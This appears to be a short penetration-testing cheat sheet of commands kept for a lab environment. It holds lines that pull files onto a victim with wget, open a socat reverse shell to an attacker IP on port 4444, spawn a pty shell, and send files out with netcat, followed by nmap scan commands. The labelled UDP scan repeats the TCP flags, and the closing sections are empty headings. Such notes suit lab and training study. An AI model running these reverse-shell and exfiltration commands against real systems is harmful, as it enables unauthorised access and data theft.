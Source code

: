 # Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: ```wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat```
        ```chmod +x socat```
        ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

Done!

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Kali:   ```nc -lvp 4444 > file.txt```

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444 ````

## 
# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

## Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.216```

UDP Scan:

```nmap -sV -sC -p- 10.10.10.216```

# Privilege Escalation

# Some Scripts

# References
